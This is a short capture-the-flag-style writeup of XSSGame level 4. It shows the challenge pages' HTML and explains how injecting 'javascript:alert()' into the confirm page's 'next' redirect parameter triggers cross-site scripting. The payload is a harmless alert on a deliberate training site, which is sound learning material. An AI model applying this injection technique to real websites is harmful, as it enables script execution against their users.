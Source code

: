 ## XSSGame Level 4 Writeup
![Image](https://github.com/user-attachments/assets/55aa7360-555c-4165-866a-bd92fa199bdf)
 


When I entered the challenge, I was directed to another page via a sign-up form, which led me to a page with an input field for an email address.

I read the source code and found the following:

```html
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/level_style.css" />
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body>
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      <!-- We're ignoring the email, but the poor user will never know! -->
      Enter email: <input id="reader-email" name="email" value="">
      <br><br>
      <a href="confirm?next=welcome">Next >></a>
    </center>
  </body>
</html>
``` 

The only interesting thing was the 
```<a href="confirm?next=welcome"> 
``` 
This link would take me to the confirm page, where I found the following code: 
 

```html
<!DOCTYPE html>
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body style="background-color: white;">
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      Thanks for signing up, you will be redirected soon...
      <script>
        setTimeout(function() { window.location = 'welcome'; }, 1000);
      </script>
    </center>
  </body>
</html>
``` 

The key part was the `window.location = 'welcome'` inside the `<script>`, which redirects after 1 second.


At this point, I thought: "What if I inject a malicious URL into the next parameter?" So, I modified the URL:

Original URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=welcome
```
Modified URL:

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

When I accessed the modified URL, the JavaScript alert was triggered as expected!

![Image](https://github.com/user-attachments/assets/a85205bf-623b-4319-bb2b-788d40437d5b)
